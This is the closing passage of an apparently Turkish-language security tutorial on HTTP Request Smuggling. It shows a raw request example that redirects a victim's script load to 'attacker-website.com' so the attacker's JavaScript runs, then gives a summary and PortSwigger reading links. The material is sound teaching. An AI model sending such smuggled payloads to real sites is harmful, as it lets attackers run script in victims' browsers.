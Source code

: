           GET /home HTTP/1.1
          Host: attacker-website.com
          Foo: XGET /scripts/include.js HTTP/1.1
          Host: vulnerable-website.com

          HTTP/1.1 301 Moved Permanently
          Location: https://attacker-website.com/home/

Burada, kullanıcı sitenin /scripts dizininde bulunan include.js JavaScript dosyasına ulaşmak istemiş. Ancak saldırganın daha önceden kaçırdığı istek yüzünden, kullanıcının isteği yerine saldırganın yönlendirmesi çalışıyor. Saldırgan yaptığı bu yönlendirme ile, kendi sitesine yazdığı JavaScript kodlarını kurbanın bilgisayarında çalıştırabilir.


[comment]: <> (İki saldırı yöntemi daha eklenecek (web cache poisoning, web cache deception)


## Özet

Bu yazıda, sizlere HTTP Request Smuggling açığından bahsettim. Teknoloji sürekli gelişiyor, bu yüzden benim burada bahsetmediğim açık tespit yöntemleri ve sömürme yöntemleri olabilir. Daha fazlası için her zaman araştırmanız sizi sürekli daha ileri seviyelere götürecektir. Güncel kalmanız dileğiyle...

**Fatih Furkan Hatipoğlu**

&nbsp;

Bana bu kadar bilgi yetmez, daha fazlasını istiyorum diyenler için birkaç tavsiye kaynak:

[metodlar]: https://www.w3schools.com/tags/ref_httpmethods.asp

[PortSwigger - HTTP Request Smuggling](https://portswigger.net/web-security/request-smuggling)

[PortSwigger - HTTP Request Smuggling açığı bulma](https://portswigger.net/web-security/request-smuggling/finding)

[PortSwigger - HTTP Request Smuggling açığını exploitleme](https://portswigger.net/web-security/request-smuggling/finding)
